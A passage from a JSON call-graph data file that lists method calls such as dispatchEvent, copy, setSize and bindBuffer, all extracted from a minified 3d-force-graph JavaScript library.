"target": "getHandSpace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getTargetRaySpace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getGripSpace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispatchEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispatchEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispatchEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispatchEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "connect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_getHandJoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispatchEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "disconnect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispatchEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getJointPose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_getHandJoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "decompose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "distanceTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispatchEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispatchEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getPose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "decompose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getPose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "decompose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispatchEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_getHandJoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "init"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getMesh"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "main"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tif"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texture"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texture"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "reset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getDepthTexture"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getContextAttributes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "enable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "enable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "enable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "enable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispatchEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "disconnect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "reset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setRenderTarget"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "stop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setPixelRatio"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispatchEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "disconnect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "connect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getTargetRaySpace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getGripSpace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getHandSpace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "makeXRCompatible"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getPixelRatio"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "updateRenderState"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setPixelRatio"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "createProjectionLayer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "updateRenderState"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setPixelRatio"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFoveation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "requestReferenceSpace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "start"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispatchEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getDepthTexture"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "multiplyMatrices"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "invert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "updateRenderState"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromMatrixPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromMatrixPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "distanceTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "translateX"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "translateZ"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "compose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "invert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "makePerspective"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "invert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "invert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "multiply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "decompose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "updateMatrixWorld"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "atan"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getMesh"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setAnimationLoop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setRenderTargetFramebuffer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setRenderTarget"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getViewport"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getViewSubImage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setRenderTargetTextures"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setRenderTarget"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "enable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "decompose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "invert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "decompose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getDepthInformation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "init"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispatchEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "updateMatrix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "multiplyScalar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "negate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromMatrix4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getRGB"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "multiplyScalar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "negate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromMatrixPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getParameter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clone"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "deleteBuffer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "uniformBlockBinding"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "isArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "isArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "createBuffer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bindBuffer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bufferData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bindBuffer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bindBufferBase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "updateUBOMapping"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bindBuffer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "isArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "isArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bufferSubData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bufferSubData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bindBuffer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "deleteBuffer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setValues"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromBufferAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromBufferAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "applyMatrix4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "distanceTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clone"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "applyMatrix4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getPoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getPointAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getUtoTmapping"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getPoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getPoints"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getSpacedPoints"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getLength"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getLengths"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getLengths"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getPoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getPoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "distanceTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "updateArcLengths"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getLengths"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getUtoTmapping"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getLengths"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getTangent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getPoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getPoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sub"}, {"confidence": 